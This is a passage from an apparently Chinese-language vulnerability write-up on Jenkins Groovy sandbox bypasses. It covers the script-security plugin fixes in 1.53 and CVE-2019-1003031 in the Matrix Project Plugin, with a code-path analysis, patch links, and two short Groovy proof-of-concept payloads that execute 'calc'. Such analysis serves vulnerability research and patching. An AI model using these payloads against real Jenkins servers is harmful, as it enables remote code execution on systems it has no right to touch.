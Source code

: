 #### PoC

```java
import groovy.transform.*;
@AnnotationCollector([ASTTest])
@interface Lol {}
@Lol(value={assert java.lang.Runtime.getRuntime().exec("calc")})
class ASTTestPoc{};
```

![1571128442836](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1571128442836.png)

#### 补丁

- jenkinsci/script-security-plugin [commit](https://github.com/jenkinsci/script-security-plugin/commit/3228c88e84f0b2f24845b6466cae35617e082059)
- 版本：1.53
- 概述：SECURITY-1318, SECURITY-1319, SECURITY-1320, SECURITY-1321均在1.53版本中修复，把Grab注释相关的方法全部放进了黑名单

![1570871810447](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1570871810447.png)



### SECURITY-1339

- 公告：https://jenkins.io/security/advisory/2019-03-06/#SECURITY-1339
- CVE：CVE-2019-1003031
- 插件：Matrix Project Plugin
- 影响版本：<= 1.13

这个漏洞需要配合[SECURITY-1336 (1)](https://jenkins.io/security/advisory/2019-03-06/#SECURITY-1336%20(1)) / CVE-2019-1003029触发，本质还是利用在解析groovy脚本后中通过script.run()执行代码

#### 分析

从页面提交Filter之后执行到`hudson.matrix.MatrixProject#submit()`，payload传给参数`combinationFilter`，随后执行`rebuildConfigurations`

![1568687478328](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568687478328.png)

payload传入`evalGroovyExpression`，然后调用`hudson.matrix.FilterScript#parse()`方法初始化一个GroovyShell，并通过GroovyShell解析表达式，代码得到执行

![1568687517862](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568687517862.png)

![1568792862732](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568792862732.png)

#### PoC

```java
class poc{poc(){"calc".execute()}}
```

#### 补丁
